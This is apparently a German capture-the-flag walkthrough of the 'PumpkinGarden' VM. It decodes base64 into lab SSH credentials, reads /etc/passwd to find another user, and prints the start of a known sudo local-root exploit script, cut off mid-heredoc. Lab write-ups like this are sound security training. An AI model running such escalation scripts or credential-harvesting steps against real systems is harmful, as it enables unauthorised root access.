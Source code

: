 #### Zweite wichtige Erkenntnis: base64 ist kein Hash! Die Länge eines base64 strings variiert, weil er die unverschlüsselten Daten enthält. Hashes wie z.B. SHA1 oder MD5 haben eine fixe Länge. 20 Byte für SHA1 und 16 Byte für MD5.

Um den String über base64 entschlüsseln zu lassen hilft folgender Befehl:

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

Das sieht sehr nach Login Daten aus!

## SSH

Mal sehen, ob die Daten als SSH-Login funktionieren:

![img](/img/PumpkinGarden-Screenshot-2.png)

Oh ja, das tun sie! Ein wichtiger Schritt ist gemacht, ich bin im System der VM.

Nachdem ich `ls -la` eingegeben hatte, fiel mir eine Textdatei auf: note.txt

![img](/img/PumpkinGarden-Screenshot-3.png)

Goblin? Was für ein Goblin? Ist das ein neuer Benutzername?
Die `/etc/passwd` kann man eigentlich immer auslesen. Da sieht man sehr gut, dass es einen Benutzer "goblin" gibt.

![img](/img/PumpkinGarden-Screenshot-4.png)

Mal sehen, ob der komische Text aus der note.txt das Passwort für goblin ist.

![img](/img/PumpkinGarden-Screenshot-5.png)

Super, das hat schon mal funktioniert! Zuerst umschauen, was es hier gibt mit: `ls -la` 

![img](/img/PumpkinGarden-Screenshot-6.png)

## Privilege escalation

Na das liest sich doch super! Dummerweise war das eine Sackgasse, weil die Seite einen 404er Error gebracht hat. Mies, und jetzt?

Was immer sehr gut hilft, ist "Tante Google"! Nach ein paar Minuten hatte ich rausgefunden, was sich hinter dem Link hätte verbergen sollen:

Ein Bash-Script, was mich zum root machen sollte.

So sieht das Script aus:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
````